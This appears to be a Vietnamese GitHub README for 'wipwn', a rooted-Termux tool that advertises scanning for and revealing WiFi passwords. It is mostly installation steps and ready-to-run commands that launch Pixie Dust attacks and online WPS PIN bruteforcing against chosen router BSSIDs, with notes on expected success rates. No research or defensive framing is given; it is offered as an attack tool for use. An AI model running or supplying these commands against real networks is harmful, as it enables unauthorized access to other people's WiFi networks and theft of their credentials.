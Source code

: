 # WIPWN

![Logo](assets/image.png)

### Quét và xem mật khẩu wifi bằng termux (Root).
    
- [Yêu cầu]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)
 
### Cài đặt :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/haidayne/wipwn
cd wipwn
chmod +x main.py
```
# Nhập thủ công và lưu ý:
(Khi mà nó hỏi Y hoặc N tức là nó cần khai báo để lấy cấu hình sử dụng bạn chọn Y thì sẽ tốt hơn và N cũng được không ảnh hưởng gì)

```bash
pkg update && pkg upgrade -y
```
```bash
pkg install root-repo -y
```
```bash
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
```
```bash
git clone https://github.com/haidayne/wipwn
```
```bash
cd wipwn
```
```bash
chmod +x main.py
```

#### lệnh hỗ trợ :
```bash
sudo python main --help
```
#### Lệnh sử dụng :
```bash
cd wipwn
```

```bash
sudo python main.py -i wlan0 -K
```

#### Ghi chú :
• Tắt mạng, tắt điểm truy cập, bật vị trí
• Màu xanh là tỉ lệ 80% thành công với router đã căn chỉnh wps

• Màu đỏ là 10%

• Màu trắng là 50%

• Màu vàng là 60%

- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust trên một mạng đã chỉ định.
```bash
sudo python main.py -i wlan0 -K
```

```bash
wipwn.sh
```
- - Bắt đầu tấn công Pixie Dust vào BSSID được chỉ định:
```bash
sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
- Khởi chạy WPS bruteforce trực tuyến với nửa đầu tiên được chỉ định của mã PIN:
```bash
sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234
```
### Xử lý sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi rồi tắt Wifi.**

---

## Ảnh chụp màn hình

| Banner | Cracked | Saved Data | config.txt | 
| :---: | :---: | :---: | :---: |
| ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/1.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/2.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/3.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/4.jpg) |


### ❤️ Cảm ơn vì những ngôi sao và forks
[![Stargazers repo danh sách cho @anbuinfosec/wipwn](https://reporoster.com/stars/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)
[![Forkers repo roster for @anbuinfosec/wipwn](https://reporoster.com/forks/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)
